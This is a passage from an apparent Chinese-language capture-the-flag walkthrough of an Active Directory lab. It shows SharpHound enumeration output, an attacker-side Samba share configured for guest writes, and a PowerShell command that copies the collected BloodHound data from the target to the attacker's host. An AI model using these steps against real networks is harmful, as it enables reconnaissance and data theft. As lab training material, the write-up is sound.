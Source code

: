 ```powershell
Enumeration finished in 00:00:05.8247737
Compressing data to C:\Users\svc-alfresco\evil\20200402003811_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 12:38 AM on 4/2/2020! Happy Graphing!
```

执行结束后，可以看到当前目录生成了`20200402003811_BloodHound.zip `的分析结果：

![](https://p1.ssl.qhimg.com/t01dc23f740f2e59396.png)

为了将分析结果取回，我在kali上开启了samba服务：

Sam.conf:

```txt
...
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = kali
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

# add to the end
[evil]
   path = /home/forest
   writable = yes
   guest ok = yes
   guest only = yes
   read only = no
   create mode = 0777
   directory mode = 0777
   force user = nobody
```

![](https://p4.ssl.qhimg.com/t0101e6e2a4319963a7.png)

> 这里遇到一个小坑，如果靶机无法复制文件到共享目录（提示权限问题），可以直接将kali上这一共享的文件夹权限设为777，就可以成功传文件了。我猜测虽然在配置smb.conf时设置了`write`权限，配置了777，出现这个问题可能是配置与建立文件夹的先后顺序的问题。

```powershell
PS C:\Users\svc-alfresco\evil> copy 20200402003811_BloodHound.zip \\10.10.14.67\evil
```

成功取回分析文件：

![](https://p0.ssl.qhimg.com/t014128cf0bf6cef0ac.png)

在kali上启动BloodHound：

![](https://p5.ssl.qhimg.com/t01507083738ba654c7.png)

